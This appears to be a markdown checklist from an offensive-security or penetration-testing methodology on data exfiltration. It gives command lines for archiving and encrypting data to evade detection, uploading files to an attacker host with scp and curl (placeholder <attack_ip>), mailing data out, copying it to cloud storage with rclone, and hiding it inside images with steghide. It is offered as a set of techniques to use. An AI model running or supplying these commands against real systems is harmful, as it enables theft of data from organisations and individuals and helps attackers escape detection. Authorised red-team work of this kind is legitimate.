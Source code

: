 
# Data Exfiltration
- [ ]  **Data Compression and Encryption:** Compress and encrypt files to evade detection.
    - `tar -czvf data.tar.gz /path/to/data`
    - `openssl enc -aes-256-cbc -salt -in data.tar.gz -out data.enc`
- [ ]  **Standard Protocols:** Use standard protocols like FTP, HTTP, or SCP to exfiltrate data.
    - `scp <file> <user>@<attack_ip>:/path/to/save`
    - `curl -T <file> http://<attack_ip>`
- [ ]  **Email:** Send exfiltrated data via email.
    - `mail -s "Data" <recipient_email> < data.tar.gz`
- [ ]  **Cloud Services:** Use cloud services (e.g., Google Drive, AWS S3) to exfiltrate data.
    - `rclone copy <file> remote:bucket`
- [ ]  **Steganography:** Hide sensitive data inside images or other file formats.
    - `steghide embed -cf <image.jpg> -ef <file.txt>`
- [ ]  **Physical Media:** Copy sensitive data to physical media (e.g., USB drives) for exfiltration.
- [ ]  **Wireless Networks:** Use a wireless network for data exfiltration if network segmentation allows.